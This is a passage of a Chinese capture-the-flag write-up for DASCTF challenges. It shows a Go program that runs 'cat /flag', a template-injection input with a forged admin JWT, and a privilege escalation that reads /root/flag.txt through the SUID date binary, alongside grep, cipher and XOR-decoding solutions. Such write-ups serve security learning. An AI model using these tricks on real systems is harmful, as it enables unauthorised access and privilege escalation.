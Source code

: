 import (
	"fmt"
	"os/exec"
)

func main() {
	cmd := exec.Command("cat", "/flag")
	ret, err := cmd.Output()
	if err != nil {
		fmt.Println(err)
	}
	fmt.Println(string(ret))
}
### fxxkgo 题
1.https://blog.csdn.net/weixin_46081055/article/details/124201444 原题复现
2.id={{.}}&pw=123
X-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6Int7Ln19IiwiaXNfYWRtaW4iOnRydWV9.Lebcn5sry2QGKTbfbZ3pFhUvV9PNAvz0bj55K7IOaQg


## MISC
### 不懂PCB的厨师不是好黑客 题
1.linux下grep DASCTF
2.grep -r “DASCTF” ./

### 卡比 题
1.搜索kirby language，找到推特https://twitter.com/obscurekirby/status/1499761597039845377
2.对照得到PTRH{GWDVSWVQBFISZSZ}，用kirby当密码，得到DASCTF{imverylikekirby}

### rootme 题
1.连上之后按正常操作看一下suid，发现有个date很可疑（/bin/date）
2.百度搜索date提权，发现可以读文件
3.发现/usr/bin/date有s权限，因此直接读flag
date -f /root/flag.txt

### 神必流量 题
1.附件下载下来按大小排序，发现传输了一个压缩包
2.用16进制转储后cyberchef转换，并得到压缩包密码123456
3.得到一个链接https://drive.google.com/file/d/140MxBVh-OGvQUuk8tmOw4Xm8it9utIzo/view
4.下载下来也是123456，然后是go的exe，先直接对out进行分析
f = open('out.txt','rb').read()
s = 'DASCTF{'
for i in range(len(s)):
    print(f[i] - ord(s[i]))
print()
for i in range(len(s)):
print(f[i] ^ ord(s[i]))
5.在异或的时候，发现有个规律性54 54 48 51 54 54 48
6.猜测是54 54 48 51循环异或
f = open('out.txt','rb').read()
key = [54,54,48,51]
flag = ''
for i in range(len(f)):
    flag += chr(key[i%4]^f[i])
print(flag)
